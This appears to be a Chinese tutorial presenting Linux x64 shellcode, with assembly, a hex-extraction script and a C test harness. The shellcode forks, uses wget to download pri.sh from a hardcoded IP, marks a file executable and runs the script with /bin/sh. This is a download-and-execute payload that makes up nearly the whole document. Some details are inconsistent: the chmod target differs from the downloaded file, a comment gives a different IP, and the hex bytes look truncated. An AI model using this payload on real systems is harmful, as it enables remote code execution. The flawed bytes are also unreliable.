 ## shellcode_ download file_ linux_x64

### 一、实验环境

* ubuntu 16.04

### 二、汇编程序

    global _start
    section .text
    _start:
    
    ;fork
    xor rax,rax
    add rax,57
    syscall
    
    xor rdi,rdi
    xor r12,r12
     
    mov r12,rax ;pid
    cmp rax,rdi
     
    jz wget
    
    ;wait(NULL)
    xor r10,r10 ;null
    xor rdx,rdx ;null
    mov rsi,r10 ;status
    mov rdi,r12 ;pid
     
    xor rax,rax
    mov al,61
    syscall
     
    
    
    ;chmod x
    xor rdx,rdx
    mov si,0x1ff
    push 0x78
    mov rdi, rsp
    xor rax, rax
    mov al, 0x5a
    syscall
    
    ;exec x
    xor rax,rax
    xor rdx,rdx
    push rax
    push rax
     
     
    mov [rsp],dword '//bi'
    mov [rsp+4],dword 'n/sh'
     
     
    mov rdi,rsp
     
     
    push rax
    push rax 
     
    mov [rsp],dword 'pri'
    mov [rsp+3],word '.s'
    mov [rsp+5],byte 'h'
    mov rsi,rsp
     
    push rdx
    push rsi
    push rdi
     
    mov rsi,rsp
     
    add rax,59
    syscall
    ;--------
    ;close(fd)
     
    push r9
    pop rdi
     
    push 3
    pop rax
    syscall
    
    wget:
    
    ;download 192.168.227.11//x with wget
    
    ;execve("/usr/bin//wget",{"/usr/bin//wget","http ://1 92.1 68.3 0.12 9/pr i.sh","-O",".pri.sh",NULL},NULL)
     
    xor rax,rax
     
     
    push rax
    push rax
    push rax
     
    mov [rsp],dword '/usr'
    mov [rsp+4],dword '/bin'
    mov [rsp+8],dword '//wg'
    mov [rsp+12],word 'et'
     
    mov rdi,rsp
     
    push rax
    push rax
    push rax
    push rax
     
    ;----------------------
    ;cusmizetd these statements for the link of pri.sh
    mov [rsp],dword 'http'
    mov [rsp+4],dword '://1'
    mov [rsp+8],dword '92.1'
    mov [rsp+12],dword '68.2'
    mov [rsp+16],dword '27.1'
    mov [rsp+20],dword '1/pr'
    mov [rsp+24],dword 'i.sh'
    ;------------------------
     
    mov rsi,rsp
    xor rdx,rdx
     
    push rax
	push rax
    push rax
    push rax
    push rax
    push rax
    push rax
     
    mov [rsp],word '-O'
    mov rcx,rsp

    push rax
    push rax
    mov [rsp],dword 'pri'
    mov [rsp+3],word '.s'
    mov [rsp+5],byte 'h'
     
    mov r15,rsp

    push rdx

    push r15
    push rcx
    push rsi

    push rdi
     
    mov rsi,rsp
     
    mov al,59
    syscall

	
* C语言程序：
	* 汇编转换为shellcode：

		    #!/bin/bash
    		for i in $(objdump -d $1 |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

	* 编译sudo gcc -fno-stack-protector -z execstack shellcode_x64.c -o shellcode_x64

			#include<stdio.h>
		    #include<string.h>
		    unsigned char code[] = \
			"\x48\x31\xc0\x48\x83\xc0\x39\x0f\x05\x48\x31\xff\x4d\x31\xe4\x49\x89\xc4\x48\x39\xf8\x74\x6c\x4d\x31\xd2\x48\x31\xd2\x4c\x89\xd6\x4c\x89\xe7\x48\x31\xc0\xb0\x3d\x0f\x05\x48\x31\xd2\x66\xbe\xff\x01\x6a\x78\x48\x89\xe7\x48\x31\xc0\xb0\x5a\x0f\x05\x48\x31\xc0\x48\x31\xd2\x50\x50\xc7\x04\x24\x2f\x2f\x62\xc7\x44\x24\x04\x6e\x2f\x68\x48\x89\xe7\x50\x50\xc7\x04\x24\x70\x72\x69\x66\xc7\x44\x24\x03\x2e\xc6\x44\x24\x05\x68\x48\x89\xe6\x52\x56\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x41\x51\x5f\x6a\x03\x58\x0f\x05\x48\x31\xc0\x50\x50\x50\xc7\x04\x24\x2f\x75\x73\xc7\x44\x24\x04\x2f\x62\x6e\xc7\x44\x24\x08\x2f\x2f\x67\x66\xc7\x44\x24\x0c\x65\x48\x89\xe7\x50\x50\x50\x50\xc7\x04\x24\x68\x74\x74\xc7\x44\x24\x04\x3a\x2f\x31\xc7\x44\x24\x08\x39\x32\x31\xc7\x44\x24\x0c\x36\x38\x32\xc7\x44\x24\x10\x32\x37\x31\xc7\x44\x24\x14\x31\x2f\x72\xc7\x44\x24\x18\x69\x2e\x68\x48\x89\xe6\x48\x31\xd2\x50\x66\xc7\x04\x24\x2d\x4f\x48\x89\xe1\x50\x50\xc7\x04\x24\x70\x72\x69\x66\xc7\x44\x24\x03\x2e\xc6\x44\x24\x05\x68\x49\x89\xe7\x52\x41\x57\x51\x56\x57\x48\x89\xe6\xb0\x3b\x0f\x05";
			
			main()
			{
				printf("Shellcode Length:  %d\n", strlen(code));
				int (*ret)() = (int(*)())code;
				ret();
			}

### 四、参考资料

* https://www.cnblogs.com/Tesi1a/p/7624052.html

* https://govolution.wordpress.com/2015/04/21/shifting-from-32bit-to-64bit-linux-shellcode/

* https://blog.csdn.net/qq_29343201/article/details/52209588
